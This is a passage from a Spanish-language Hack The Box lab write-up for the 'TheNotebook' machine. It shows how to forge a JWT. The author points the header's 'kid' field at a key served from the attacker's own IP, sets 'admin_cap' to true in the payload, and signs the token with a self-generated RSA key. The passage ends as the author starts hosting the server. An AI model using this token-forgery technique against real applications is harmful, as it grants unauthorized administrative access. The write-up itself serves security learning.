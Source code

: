 ```bash
❭ openssl genrsa 2048 > palaKeypa.key
# pero despues de generarla, copiarla y pegarla en la web
# vemos que es más pequeña que la que ya estaba originalmetn en nusetro token,
# asi que le modificamos el tamaño al doble
```

```bash
❭ openssl genrsa 4096 > palaKeypa.key
Generating RSA private key, 4096 bit long modulus (2 primes)
.................................................++++
......................................................................................++++
e is 65537 (0x010001)
❭ chmod 400 palaKeypa.key
```

Entonces, ahora modificamos el **header**: (se puede hacer en la Shell o en la web, para que sea más legible se las mostraré en la web)

```json
{"typ": "JWT","alg": "RS256","kid": "http://10.10.14.194:8000/palaKeypa.key"}
```

Lo pasamos a `base64`:

```bash
❭ echo '{"typ": "JWT","alg": "RS256","kid": "http://10.10.14.194:8000/palaKeypa.key"}' | base64 
eyJ0eXAiOiAiSldUIiwiYWxnIjogIlJTMjU2Iiwia2lkIjogImh0dHA6Ly8xMC4xMC4xNC4xOTQ6
ODAwMC9wYWxhS2V5cGEua2V5In0K
```

Y pegamos en la web (pegado y sin `=`)

![320google_jwt_headerPART](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320google_jwt_headerPART.png)

**Payload (data):**

```json
{"username": "lanz","email": "lanz@lanz.htb","admin_cap": true}
```

```bash
❭ echo '{"username": "lanz","email": "lanz@lanz.htb","admin_cap": true}' | base64
eyJ1c2VybmFtZSI6ICJsYW56IiwiZW1haWwiOiAibGFuekBsYW56Lmh0YiIsImFkbWluX2NhcCI6
IHRydWV9Cg==
```

![320google_jwt_payloadPART](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320google_jwt_payloadPART.png)

**Verify signature:**

Copiamos la llave que generamos (con todo y `--`) y la pegamos en la web en esta parte:

![320google_jwt_signPART](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320google_jwt_signPART.png)

Y listos, tenemos nuestro token generado. Ahora la prueba de fuego.

Hosteamos el servidor web:
